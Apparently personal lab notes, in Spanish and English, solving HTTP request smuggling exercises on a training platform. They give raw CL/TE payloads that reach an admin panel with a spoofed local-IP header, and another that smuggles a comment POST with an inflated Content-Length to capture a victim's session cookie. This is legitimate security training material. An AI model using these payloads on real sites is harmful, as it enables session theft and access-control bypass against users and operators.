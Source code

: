 + X-nSaubQ-Ip: 190.242.107.22 pero admin accesible solo a través de la interfaz local. (pero claramente la header de IP varia pero asi es la esencia de encontrarla.)

Testing inicial: 

```js
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

#### Payload final: 

```js
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-iYDwnb-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

### LAB: CL->TE To Capture Other Users Requests  `capture cookie session other user`  `Post Comment`

* Large Content-Length to capture victim requests. Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to **980**, then smuggle POST request to the back-end server.
* Basicamente en la seccion de comentarios posteamos un comment que se insertará con otra request proveniente del user victima del cual podremos extraer de ahi su cookie session. 

![[Pasted image 20250219120621.png]]

```js
------------ SOLUCION BY @JFOZ1010
Transfer-Encoding: chunked
Content-Length: 302

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 980
Cookie: session=CookieSessionMine

csrf=ValueCSRF&postId=4&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=test

//retorna invalid blog post ID -> pero toca ir a ver el post a ver las request que se filtran. (entre ellas carlos victim con su cookie session)

```